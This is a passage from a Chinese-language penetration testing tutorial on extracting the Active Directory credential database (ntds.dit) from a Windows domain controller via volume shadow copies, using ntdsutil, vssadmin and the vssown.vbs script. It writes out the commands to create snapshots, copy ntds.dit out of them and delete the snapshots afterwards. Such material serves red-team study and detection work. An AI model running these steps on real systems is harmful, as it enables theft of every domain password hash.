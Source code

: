 ![image-20210224134029615](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224134029615.png)

 也可直接手动复制粘贴。

```cmd
# 将加载的快照卸载并删除
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
```

```cmd
# 查询快照
ntdsutil snapshot "list all" quit quit
```



![image-20210224134450035](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224134450035.png)

可以看到指定的快照·已经被删除。

#### 1.2 利用 vssadmin 提取ntds.dit

vssadmin 是 win 2008 及 win7 提供的 VSS 管理工具。

可用于创建和删除卷影拷贝、列出卷影拷贝的信息。

```cmd
# 查询当前系统的快照
vssadmin list shadows

# 创建快照(创建一个C盘的卷影拷贝)
vssadmin create shadow /for=c:

# 复制所需文件
copy 路径 .

# 删除快照
vssadmin delete shadows /for=c: /quiet
```

![image-20210224135437533](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224135437533.png)

#### 1.3 利用 vssown.vbs 脚本提取 ntds.dit

https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs

```cmd
//启动VSS服务
cscript vssown.vbs  /start
//创建一个C盘的卷影拷贝
cscript vssown.vbs  /create c
//列出当前卷影拷贝
cscript vssown.vbs  /list
//复制ntds.dit *为数字
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy***\windows\NTDS\ntds.dit c:\ntds.dit
//删除卷影拷贝
cscript vssown.vbs  /delete
```
